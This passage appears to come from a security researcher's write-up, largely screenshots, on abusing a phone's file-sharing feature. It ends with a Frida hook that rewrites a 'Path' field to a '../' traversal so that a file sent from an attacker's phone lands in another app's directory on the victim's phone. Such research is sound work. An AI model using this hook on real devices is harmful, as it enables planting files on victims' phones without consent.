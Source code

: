 Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*eo20-k_UxVeDMY10bhD_Qg.png)![](https://miro.medium.com/v2/resize:fit:965/1*67-WI0zhR_POw-NbJ1ShZQ.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*NpSsz9OXN9Kc8PCGJaGUyw.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*N8nq5uqUr7C0TWl-UJF8eg.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*snL-Ibo99hKPzR54vNw1dg.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*2qmzWcclra6vsUNopBoOzw.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*YMp8TTDGCiodXLffP-pDJQ.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*2vVXTWVpJMY123b1CNoeaQ.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*_GAMJiGvW50ZveXMJvB3Qg.png)finally we are in e2.t.n

in this n JSONObject there custom message sent from attacker to victim phone then we can hook this `n` and see what it contain while create the Download Code will be look like this when we try to inject on it for change path of file

![](https://miro.medium.com/v2/resize:fit:851/1*GwjUkpyYY2QOheLuHfhMyg.png)

```
console.log("script loaded");
Java.perform(function() {

    var AttackerClass = Java.use('e2.t');

    AttackerClass.n.overload('org.json.JSONObject', 'e2.h', 'boolean').implementation = function(a,b,c) {
        if (a.has("Path")) {
            a.put("Path","/../../../../../../GPUWatch_Dump/html/")
        }
        var ret_val = this.n(a,b,c);
        console.log("send json: " + a + "\n" + "send bytes: " + ret_val + "\n")
        return ret_val;
    }
});

```
